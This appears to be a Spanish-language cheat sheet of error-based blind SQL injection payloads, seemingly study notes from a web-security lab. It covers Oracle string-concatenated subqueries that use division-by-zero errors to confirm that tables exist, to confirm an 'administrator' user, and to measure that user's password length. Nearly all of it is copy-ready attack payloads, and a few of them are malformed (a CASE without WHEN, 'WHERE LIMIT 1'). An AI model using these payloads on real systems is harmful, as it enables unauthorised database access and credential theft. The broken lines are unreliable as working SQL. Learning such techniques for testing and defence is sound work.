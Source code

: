 `
No manda error
'||(SELECT '' FROM TablaExiste)||'  
Manda error
'||(SELECT '' FROM TablaQueNoExiste)||'
`
### Subconsulta de una tabla para indetificar si cuenta con valores
``` 
SQL Oracle 
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'

SQL (Depende el tipo de consulta tambien puede ser admitido en Oracle)
'||(SELECT '' FROM users WHERE LIMIT 1)||'
```
## Error División por Cero 
### Subconsulta aplicada con Error de División por Cero Verdadera
```
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END)||'
```
### Subconsulta aplicada con Error de División por Cero Falsa
```
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END)||'
```
### Subconsulta aplicadas con Error de División por Cero - Verificar la existencia de una tabla
```
Se verifica el nombre de la tabla objetivo se espera que no haya errores
'||(SELECT  CASE  THEN '' ELSE TO_CHAR(1/0) FROM users)||'

Se verifica la hipotesis generando una consulta en una tabla que no exista
'||(SELECT  CASE  THEN '' ELSE TO_CHAR(1/0) FROM unaTablaQueNoExiste)||'
```
### Subconsulta aplicadas con Error de División por Cero - Verificar la existencia de un valor en la tabla
```
Es la misma subconsulta realizada de diferentes formas
Esta consulta primero devuelve valores donde el username sea administrator y si existen ejecuta la operación condicional 1=1
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

Esta consulta además de lo que hace la anterior limita el numero de filas a devolver a 1, la primera esta en SQL Oracle, la otra en SQL
'||(SELECT CASE WHEN username = 'administrator' THEN '' ELSE TO_CHAR(1/0) END FROM users WHERE ROWNUM = 1)||'
'||(SELECT CASE WHEN username = 'administrator' THEN '' ELSE TO_CHAR(1/0) END FROM users LIMIT 1)||'
```
### Subconsulta aplicadas con Error de División por Cero - Verificar la longitud de un valor de un campo de la columna, en este caso la contraseña 
```
Todas las subconsultas hacen lo mismo  pero de diferente manera
'||(SELECT CASE WHEN LENGTH(password)>$1$ THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'					
```